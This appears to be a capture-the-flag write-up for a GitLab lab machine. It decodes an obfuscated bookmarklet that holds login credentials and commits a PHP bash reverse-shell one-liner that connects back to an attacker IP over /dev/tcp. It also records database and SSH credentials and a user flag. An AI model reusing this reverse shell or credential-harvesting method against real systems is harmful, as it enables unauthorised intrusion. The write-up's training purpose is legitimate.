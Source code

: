 # Port 80 - Gitlab
## Exploring the gitlab directory manage to come across a hidden bookmarks link
 - http://10.10.10.114/help/bookmarks.html
### A Gitlab Login Link contains the text
```
javascript:(function(){
	%20var%20_0x4b18=["\x76\x61\x6C\x75\x65",
			"\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E",
			"\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64",
			"\x63\x6C\x61\x76\x65",
			"\x75\x73\x65\x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64",
			"\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78"];
	document[_0x4b18[2]](_0x4b18[1])
		[_0x4b18[0]]=%20_0x4b18[3];
	document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]=%20_0x4b18[5];
	%20})()
```
- This is unusual

```
javascript:(function(){
        var _0x4b18=["value",
                        "user_login",
                        "getElementById",
                        "clave",
                        "user_password",
                        "11des0081x"];
        document[_0x4b18[2]](_0x4b18[1])
                [_0x4b18[0]]= _0x4b18[3];
        document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]=%20_0x4b18[5]; })()

```

#### Username: clave
#### Password: 11des0081x

## Login as user clave into gitlab
 - Upon loggin in we are presented with two projects
	* Administrator/ Profile (Developer)
	* Administrator/ Deployer (Reporter)

### http://10.10.10.114/root/profile
 - Files in the repo
	* README.md
	* developer.jpg
	* index.php

### http://10.10.10.114/root/deployer
 - Files in the repo
	* README.md
	* index.php
		- **NOTE** this php file contains shell_exec() --> we can exploit

#### I can access these files by going to http://10.10.10.114/deployer/index.php for example
 1) The php executes and we get an OK as expected by the echo "OK" in index.php
	* Now to figure out code execution
 2) file_get_contents("php://input");
	* Allows for posting json data 

## Off course, simple php reverse shell one liner does the job.
### Commited to gitlab on index.php in the project profile

```php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.15.4/1895 0>&1'");
```
- Popped a shell and moving forwards onto user

## PostgreSQL
### On the gitlabs page under Snippets the following code is displayed
- http://10.10.10.114/snippets/1

```
<?php
$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
$result = pg_query($db_connection, "SELECT * FROM profiles");

```
#### Username: profiles
#### Password: profiles

## Connecting to postgres via forwarded port?
### netstat -pant output
```
tcp        0      0 127.0.0.1:3022          0.0.0.0:*               LISTEN      
-                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      
-                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      
-                   
tcp        0      0 172.17.0.1:3000         0.0.0.0:*               LISTEN      
-                   
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN    
```

- We know based on the above php code that the postgresql server is running on local host
	* therefore we can assume that either port 53 or 5432 is hosting the server
	* port 3000 is also something to note. It's on a completely different subnet, but there are still connections to it

## Answer was php script in snippets
### Paste the code and exit it to select the proper row
Go to the page under 10.10.10.114/profile/db.php

-c3NoLXN0cjBuZy1wQHNz==
	* looks like base64 but thats his ssh password --> maybe a messup
-user.txt --> 1e3fd81ec3aa2f1462370ee3c20b8154
